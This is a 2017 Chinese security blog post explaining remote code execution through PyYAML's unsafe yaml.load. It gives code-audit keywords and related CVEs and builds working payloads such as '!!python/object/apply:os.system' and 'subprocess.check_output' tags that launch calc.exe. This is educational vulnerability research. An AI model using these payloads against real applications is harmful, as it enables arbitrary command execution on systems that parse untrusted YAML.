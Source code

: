Title:Python PyYAML反序列化漏洞实验和payload构造
Date: 2017-09-22 10:20
Category: 漏洞
Tags: python,PyYAML,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0 概述

**什么程序存在漏洞：**

使用了PyYAML这个库并且使用了yaml.load而不是yaml.safe_load函数来解析yaml文件的程序

**代码审计关键词：**

import yaml

yaml.load(

**已知相关漏洞：**

Remote Code Execution Vulnerability in Ansible-Vault Library. (CVE-2017-2809)

<https://pypi.python.org/pypi/ansible-vault/1.0.4> ansible-vault <=1.0.4存在这个漏洞，在1.0.5中完成了修复

Remote Code Execution Vulnerability in Tablib. (CVE-2017-2810)

### 0x1 yaml和序列化

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

除开 YAML 格式中常规的列表、字典和字符串整形等类型转化外（基本数据类型），各个语言的 YAML 解析器或多或少都会针对其语言实现一套特殊的**对象转化规则**（也就是序列化和反序列化，这是关键点，是这个漏洞存在的前提)。比如：PyYAML 在解析数据的时候遇到特定格式的时间数据会将其自动转化为 Python 时间对象

- 序列化： 将数据结构或对象转换成二进制串（字节序列）的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

将如下内容保存到sample.yml

```
date: !!str 2016-03-09
date1:  2016-03-09
weekday: Wednesday
weather: sunny
```

然后在同一目录下运行如下python 代码：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import yaml

print(yaml.load(file('sample.yml', 'r')))
```

可以看到如下结构，有“!!str”强制类型转换的，就成了字符串格式；没有类型转换的就是python中datetime.date对象。

图一

![img](img/pyyaml/1.png)

### **0x2** 代码执行PoC构造的尝试

**以笔者目前初浅的理解，要实现代码执行，就需要序列化和反序列的内容中出现该编程语言中的对象（函数、类），因为的对象的反序列化，是在构建一个对象的实例（实例化的过程）。如果一个对象中有函数的定义，有可执行代码，那么实例化后再通过方法调用或者其他的途径才能使其中的代码到执行。普通数据类型的反序列化只是变量相关的初始化、赋值等操作，不会涉及到逻辑处理的代码块，所有不会有代码的执行！（普通数据类型 = 数据，对象= 函数代码+数据）。**

通过跟踪$PYTHON_HOME/lib/site-packages/yaml/constructor.py文件，查看 PyYAML 源码可以得到其针对 Python 语言特有的标签解析的处理函数对应列表，其中有三个和对象相关：

```
!!python/object:          =>  Constructor.construct_python_object

!!python/object/apply:    =>  Constructor.construct_python_object_apply

!!python/object/new:      =>  Constructor.construct_python_object_new

```

通过如下代码，来序列化test类中的内容，

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'yaml_gen_poc.py'

import yaml
import os

class test:
    def __init__(self):
        os.system('calc.exe')

payload =  yaml.dump(test())

fp = open('simple.yml','w')
fp.write(payload)
```

可以看到simple.yml中写入的内容如下：

```
!!python/object:yaml_gen_poc.test {}
```

再运行yaml_verify.py来验证：

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = "yaml_verify.py"

import yaml

yaml.load(file('simple.yml', 'r'))
```

图二

![img](img/pyyaml/2.png)

成功执行了命令，弹出计算器。但是yaml_verify.py的成功运行，需要依赖yaml_gen_poc.py，因为它会根据yml文件中的指引去读取yaml_gen_poc.py中的test这个对象（类）。如果删除yaml_gen_poc.py，也将运行失败。

### **0x3 构造通用payload**

那么我们怎样消除这个依赖呢？就是将其中的类、或者函数 换成python标准库中的类或者函数。

直接修改yml文件为：

```
!!python/object:os.system ["calc.exe"]
```

再运行，失败（显示参数未传递：TypeError: system() takes exactly 1 argument (0 given)），尝试查看源码、并变换yml文件中语句格式，均未成功！（疑难点）。

修改为以下2种均成功，通过源码得知，new其实是调用了apply，他们的不同的地方是创建对象的方式，这里可以大致认为它们是一样的。

```
!!python/object/apply:os.system ["calc.exe"]
```

```
!!python/object/new:os.system ["calc.exe"]
```

既然解决了依赖问题，那我们就尝试构建一些有用的poc吧，从官方标准库里找可以用来执行命令的函数 <https://docs.python.org/2/library/index.html>

```
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]

..................
```

本文测试代码地址

<https://github.com/bit4woo/code2sec.com/tree/master/code/YamlRCE>

### **0x4 参考**

<http://blog.talosintelligence.com/2017/09/vulnerability-spotlight-yaml-remote.html>

<http://rickgray.me/2016/03/09/pyyaml-tags-parse-to-command-execution.html>

<https://www.youtube.com/watch?v=kjZHjvrAS74>
